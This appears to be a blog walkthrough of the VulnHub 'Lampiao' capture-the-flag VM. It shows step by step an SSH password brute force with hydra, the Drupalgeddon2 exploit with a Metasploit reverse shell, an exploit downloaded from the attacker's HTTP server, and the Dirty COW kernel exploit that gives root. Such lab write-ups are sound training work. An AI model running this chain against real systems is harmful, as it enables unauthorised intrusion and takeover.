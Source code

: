 ```yaml
---
layout: post-detail
title: Walkthrough on the CTF lampiao
date: 2018-10-01
categories: CTF
description: CTF on lampiao, iso https://www.vulnhub.com/entry/lampiao-1,249/
img-url: ''
comments: true
---
```


# Iso

Download the iso here: https://www.vulnhub.com/entry/lampiao-1,249/

# Discover the target

    $ sudo nmap -sS 192.168.2.0/24

```txt
Nmap scan report for 192.168.2.118
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E1:ED:D5 (Oracle VirtualBox virtual NIC)
```

192.168.2.118 is our target, a ssh and a http server run.

# More informations

    $ sudo nmap -sT -sV -A -p- 192.168.2.118

```txt
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
- - -
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

# Acces via ssh

The target site has 2 usernames `tiago` and `eder`.  
We use `cewl` to retrieve all words from target site.

    $ cewl http://192.168.2.118:1898/ -w lampiao.txt

With this dictionnary, we can bruteforce the ssh access:

    $ hydra -t 4 -l tiago -P lampiao.txt 192.168.2.118 ssh

3 mins later:

```txt
[STATUS] 43.00 tries/min, 129 tries in 00:03h, 708 to do in 00:17h, 4 active
[22][ssh] host: 192.168.2.118   login: tiago   password: Virgulino
1 of 1 target successfully completed, 1 valid password found
```
To connect:

     $ ssh tiago@192.168.2.118

There are an other ways to connect to the target too.

# Acces via exploit Drupalggedon2

The /CHANGELOG.txt show us the version of drupal 7.54

    $ searchsploit drupal

```txt
Drupal < 7.58 / < | exploits/php/webapps/44449.rb
```

We launch the exploit.

    $ ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.2.118:1898

```txt
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://192.168.2.118:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.2.118:1898/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://192.168.2.118:1898/s.php' -d 'c=whoami'
lampiao>>
```

Unfortunately, the shell is very limited, try run g++ return:

    lampiao>> g++
    sh: 1: g: not found

Or `chmod +x something`, we cannot use any special character.
We'll run the same exploit under `metasploit` and `meterpreter`.

    $ msfconsole
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOST 192.168.2.118
    set RPORT 1898
    exploit

```txt
[*] Started reverse TCP handler on 192.168.2.92:1898 
[*] Drupal 7 targeted at http://192.168.2.118:1898/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.2.118
[*] Meterpreter session 1 opened (192.168.2.92:1898 -> 192.168.2.118:36346) at 2018-10-01 15:46:15 +0200
meterpreter >
```

    meterpreter > shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    lampiao:/var/www/html$ uname -a
    Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

Back on my machine to search a nice exploit, i've try many query with searchsploit:

    $ searchsploit linux 4.4

No working exploit found...

    $ searchsploit Linux Kernel | grep local | wc -l
    200

Try to reduce the list with only `.c` and `.cpp` exploit.

    $ searchsploit Linux Kernel | grep local | grep -e "\.cpp$" -e "\.c$" | wc -l
    151

We remove `x86_64` and `arm` exploit.
     
    $ searchsploit Linux Kernel linux/local | grep -e "\.cpp$" -e "\.c$" | wc -l
    126

`126` result to test manually? no way, we going to use `linux-exploit-suggester.sh`, on the victim:

    $ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
    $ chmod +x les.sh
    $ ./les.sh

Finally, The script found 17 exploits.

```txt
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Copy the script in your current directory.

    $ searchsploit 40847
    $ cp /usr/share/exploitdb/exploits/linux/local/40847.cpp ./

Start a server to download file under the lampiao vm.

    $ python2.7 -m SimpleHTTPServer 4444

    lampiao$ wget http://192.168.2.92:4444/40847.cpp

Instruction to compile are in the file:

    lampiao$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
    lampiao$ ./dcow -s

We are finally root:

    root@lampiao:~# cd
    root@lampiao:~# cat flag.txt
    9740616875908d91ddcdaa8aea3af366

Find the good exploit here was a bit long.
